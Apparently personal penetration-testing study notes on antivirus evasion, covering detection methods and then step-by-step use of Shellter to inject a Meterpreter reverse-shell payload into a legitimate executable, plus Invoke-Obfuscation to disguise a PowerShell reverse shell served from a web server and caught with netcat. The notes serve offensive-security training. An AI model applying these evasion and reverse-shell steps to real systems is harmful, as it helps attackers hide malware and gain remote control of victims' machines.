 
## AV Evation with Shelter


















Defense Evation consists of techniques that adversaries use to avoid detection throughout their compromise. Techniques used for defense evasion include uninstalling/disabling security software or obfuscating/encrypting data and scripts. Adversaries also leverage and abuse trusted processes to hide and masquerade their malware. 

AV Detection Methods
1. Signature based detection 
   An AV signature is a unique sequence of bytes that uniquely identified malware. As a result you will have to ensure that you obfuscated exploit or payload does not match any known signature in the AC database.
   
   We can bypass signature-based detection by modifying the malware byte sequence therefore changing the signature

2. Heuristic-based detection 
   Relies on rules or decisions to determine whether a binary is malicious. It also looks for specific patterns within the code or program calls
   
3. Behavior based detection 
   Relies on identifying malware by monitoring its behavior (used for newer strains of malware)

On-disk Evasion Techniques
- Obfuscation: Obfuscation refers to the process of concealing something important, valuable, critical. Obfuscation reorganizes code in order to make it harder to analyze or RE
- Encoding: Encoding data is a process involving changing data into a new format using a scheme. Encoding is a reversible process: data can be encoded to a new format and decoded to its original format
- Packing: Generate executable with new binary structure with a smaller size and therefore provides the payload with a new signature
- Crypters: Encrypts code or payloads and decrypts the encrypted code in memory. The decryption key/function is usually stored in a stub. (ransomeware only hackers have the key)


In-Memory Evasion Techniques
	- Focus on manipulation of memory and does not write files to disk
	- Injects payload into a process by leveraging various Windows APIs
	- Payload is then executed in memory in a separate thread. 

Shellter
www.shellterproject[.]com 


- `sudo apt-get install shellter -y `
	-wine is allows you to execute windows executables on a linux system
- to install 32-bit packages: s`udo dpkg --add-architecture i386`
- `sudo apt-get install wine32`
- `cd /usr/share/windows-resources/shellter `
- you can execute a exe file on linux with wine: `sudo wine shellter.exe `
- identify legitimate executable you can inject your executable in
	- copy file: vncviewer.exe 
	- create folder AVBypass
	- put the file vncviewer.exe in the folder. 
- launch shelter
	- A (auto)
	- PE target: (provide the path of the file you want to inject into)
	- enable stealth mode: Y 
	- payload: L (listed payload) 1 

- transfer file to target 
	- get to the directory where the malicious injected file is - set up simple python webserver 
- set up multi/handler in msfconsole 
	- set payload windows/meterpreter/reverse_tcp 

On target system download the malicious file and execute it. On your multi/handler a connection will be established. 



#### Obfuscating Powershell code

https://github.com/danielbohannon/invoke-obfuscation

- clone the github (invoke-obfuscation)
  ![[Pasted image 20230917160016.png]]
	
- install powershell `sudo apt-get install powershell -y `
- launch powershell: `pwsh` 
- Import powershell module:`import-Module ./Invoke-Obfuscation.psd1 `
- run the tool:` Invoke-Obfuscation `

create reverse shell powershell script: 
- copy the powershell code from the reverse shell cheatsheet (github page)
- paste the code in tekst editor: remove the "" at beginning and end and change the attacker ip and the listener port. Store shell.ps1 
- `SET SCRIPTPATH path_to_powerscript_script/shell.ps1`
	- ENCODING 
	- BACK 
	- AST 
	- ALL
	- 1 
	now you see your obfuscated code 

Host a webserver so you can download the obfuscated code on the target system, set up a netcat so you can listen for incoming connections. 
- Set up webserver: `Sudo python3 -m http.server 80 ` 
- run with powershell 
  ![[Pasted image 20230917161200.png]]

in netcat click enter, you get a reverse shell 



















## Obfuscation with PowerShell code 